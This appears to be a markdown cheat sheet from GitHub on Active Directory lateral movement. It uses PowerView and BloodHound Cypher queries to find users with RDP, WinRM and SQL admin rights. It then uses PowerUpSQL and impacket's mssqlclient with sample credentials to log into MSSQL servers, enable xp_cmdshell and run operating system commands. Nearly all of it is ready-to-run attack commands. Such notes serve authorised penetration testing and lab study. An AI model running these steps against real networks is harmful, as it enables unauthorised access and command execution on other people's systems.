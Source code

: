 # Members of the Remote Access Users
## Enumerating the Remote Desktop Users Group
**Using PowerView**
```powershell
Get-NetLocalGroupMember -GroupName "Remote Desktop Users"
```
Get who has RDP on a specific computer-name
```powershell
Get-NetLocalGroupMember -ComputerName <computer-name> -GroupName "Remote Desktop Users"
```

---

## Enumerating a specific user or an entire group has WinRM access
```powershell
Get-NetLocalGroupMember -GroupName "Remote Management Users"
```
a specific computer-name
```powershell
Get-NetLocalGroupMember -ComputerName <computer-name> -GroupName "Remote Management Users"
```
Utilize Cypher query in **BloodHound** to get users with this type of access.
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```
<img width="1878" height="262" alt="image" src="https://github.com/user-attachments/assets/b72fa93e-8c10-434f-921d-729fb1de6504" />

---
## SQL Admin Rights
### Cypher Query to Check for SQL Admin Rights in **BloodHound**

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
<img width="1893" height="256" alt="image" src="https://github.com/user-attachments/assets/45b600f4-f1fd-4c4a-95e1-2be0db090908" />

### Using **PowerUpSQL**

```powershell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```
Authenticate against the remote SQL server host to run custom queries or operating system commands.
```powershell
Get-SQLQuery -Verbose -Instance "<SQLServer-IP>,<Port>" -username "domain\<SqlAdmin-User>" -password "SQL1234!" -query 'Select @@version'
Get-SQLQuery -Verbose -Instance "10.10.5.150,1433" -username "corp\Ahmed" -password "SQL1234!" -query 'Select @@version'
```
In success
<img width="1543" height="76" alt="image" src="https://github.com/user-attachments/assets/891b551d-a2c0-4f97-ba94-e55e876c89a6" />
### Authenticate from our Linux
```powershell
mssqlclient.py domain/<SqlAdmin-User>@10.10.5.150 -windows-auth
impacket-mssqlclient  'domain/user':'password'@<Target-IP> -dc-ip <Domain-IP> -windows-auth
```
**Enabling xp_cmdshell**
```shell
enable_xp_cmdshell
```
Confirming Access
```shell
xp_cmdshell "whoami"
```

---
